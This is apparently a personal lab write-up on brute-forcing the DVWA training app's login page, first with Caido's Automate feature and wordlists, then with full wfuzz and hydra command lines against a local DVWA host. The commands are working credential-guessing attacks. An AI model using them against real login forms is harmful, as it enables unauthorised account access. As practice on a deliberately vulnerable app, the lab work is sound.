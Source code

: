 ```yaml
---
title: "Brute Force"
date: 2024-02-07T16:06:04+01:00
draft: false
tags: ["Caido", "Web", "DVWA"]
categories: ["Hacking"]
description: "A hands-on guide to brute force attacks using DVWA. Learn how to automate login attempts with Caido and wfuzz, build effective username and password lists, and understand response analysis for successful credential discovery. Includes practical tips for both manual and automated approaches."
---
```


A brute force attack can manifest itself in many different ways, but primarily consists in an attacker configuring predetermined values, making requests to a server using those values, and then analyzing the response. For the sake of efficiency, an attacker may use a dictionary attack (with or without mutations) or a traditional brute-force attack (with given classes of characters e.g.: alphanumeric, special, case (in)sensitive). Considering a given method, number of tries, efficiency of the system which conducts the attack, and estimated efficiency of the system which is attacked the attacker is able to calculate approximately how long it will take to submit all chosen predetermined values.

https://owasp.org/www-community/attacks/Brute_force_attack


At the Login page  attempt to log in with any random character

![](1.png)

In Caido;
	In the HTTP history tab find the corresponding request:
	
![](2.png)

Send it to Automate

![](3.png)

Select matrix:
Highlight the username you entered, and add a payload
Make a list of all the usernames you know

![](4.png)


Highlight the the password you entered
Google: password list small filetype:txt
find a suitable file containing passwords
In Caido on the left menu select 'files' and upload your workdlist

![](5.png)

	Back in Automate:
	Select the password you entered and add a second payload
		Type: Hosted file 
		Select your wordlist
			Hit 'Run'

![](6.png)

Once you've run the file sort the requests by Length(decending)

![](7.png)

Also: 

![](8.png)

Open the image and you'll find the directory 
	
![](9.png)

![](10.png)

Try this command: 
`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.0.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

![](11.png)


This one is for 'gordonb':

`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' '
http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'
`

![](12.png)

Add the show words flag: --sw

`wfuzz **--sw 259** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

![](13.png)

Even better:

`wfuzz **--hh 4373** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf'
'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'`

This will hide responses with 4373 characters.
	
![](14.png)

![](15.png)

`wfuzz --hh 4373 -c -w users.txt -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'`


I'm struggling to get the hard one. 

`hydra -L users.txt -P shortlist.txt -u 192.168.10.123 http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F='Username and/or password incorrect'" -I`

**High:**

Need to find a way to use the correct csrf/user token 
